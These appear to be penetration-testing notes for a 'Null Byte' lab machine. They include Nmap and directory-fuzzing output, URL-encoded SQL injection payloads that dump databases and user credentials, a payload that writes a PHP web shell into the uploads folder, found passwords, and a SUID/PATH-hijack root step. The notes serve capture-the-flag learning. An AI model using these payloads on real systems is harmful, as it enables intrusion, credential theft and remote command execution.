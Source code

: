 # Export
```md
export IP="192.168.136.16"
export URL="http://192.168.136.16/FUZZ"
```

<hr>

# Loot
+ Vulnerable to SQL Injection
+ Payload: `http://192.168.237.16/kzMb5nVYJw/420search.php?usrtosearch=%22`
+ Valid local users: `eric` , `bob` (through SQL injection)
+ `/var/www/html/uploads` is writable 

#### SQL Injection
+ Current database: `seth`
```md
payload> %22+UNION+SELECT+null%2Cdatabase%28%29%2Cnull%23
```

+ Current version: `5.5.44-0+deb8u1`
```md
payload> %22+UNION+SELECT+null%2C%40%40version%2Cnull%23
```

+ Databases: `seth`,`mysql` and `phpmyadmin`

```md
payload> %22+UNION+SELECT+null%2Cschema_name%2Cnull+FROM+information_schema.schemata%23
```

+ Tables: `users`
```md
payload> %22+UNION+SELECT+null%2Ctable_schema%2Ctable_name+FROM+information_schema.tables+WHERE+table_schema+%21%3D+%22my_sql%22+AND+table_schema+%21%3D+%22information_schema%22%23
```

+ Columns: `id`, `user`, `pass`

```md
payload> %22+UNION+SELECT+id%2Cuser%2Cpass+from+users%23
```

+ Getting Shell:
```md
payload> %22+UNION+ALL+SELECT+null%2C%22%3C%3Fphp+system%28%24_GET%5Bc%5D%29%3F%3E%22%2Cnull+INTO+OUTFILE+%22%2Fvar%2Fwww%2Fhtml%2Fuploads%2Fshell15.php%22%23
```

#### Crendentials
+ (Web): `key=elite`
+ (Mysql): `ramses:omega`

#### Local Enumeration
+ SUID `procwatch` + PATH Hijacking → `root` privilege

<hr>

# Nmap
```bash
PORT      STATE SERVICE REASON         VERSION
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.10 ((Debian))           
| http-methods:                      
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33323/udp   status
|   100024  1          33872/tcp   status
|   100024  1          43582/udp6  status
|_  100024  1          57223/tcp6  status
777/tcp   open  ssh     syn-ack ttl 63 OpenSSH 6.7p1 Debian 5 (protocol 2.0)
33872/tcp open  status  syn-ack ttl 63 1 (RPC #100024)
```

<hr>

# Web Application
#### Port 80
+ Discovery

```bash
.htaccess               [Status: 403, Size: 298, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 293, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 298, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 196, Words: 20, Lines: 11]
javascript              [Status: 301, Size: 321, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 321, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 302, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 318, Words: 20, Lines: 10]
```

+ `exiftool` the `gif` reveals hidden path. `/kzMb5nVYJw`
+ Navigate to the new path.

```html
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

<hr>

# SSH
#### Port 777
+ Version 6.7p1 → User Enumeration ?
